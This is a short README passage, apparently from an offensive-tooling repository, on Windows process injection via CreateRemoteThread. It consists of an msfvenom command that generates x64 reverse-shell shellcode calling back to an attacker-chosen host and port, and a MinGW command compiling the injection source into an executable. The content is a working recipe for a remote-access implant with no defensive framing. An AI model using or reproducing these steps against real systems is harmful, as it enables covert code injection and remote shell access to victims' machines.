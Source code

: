 # Process Injection: CreateRemoteThread or Remote Thread Injection
create your shellcode and insert it in code:
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

compile it in kali using **MinGW**:
```sh
x86_64-w64-mingw32-gcc remote_thread_injection_*.c -o rti.exe
```
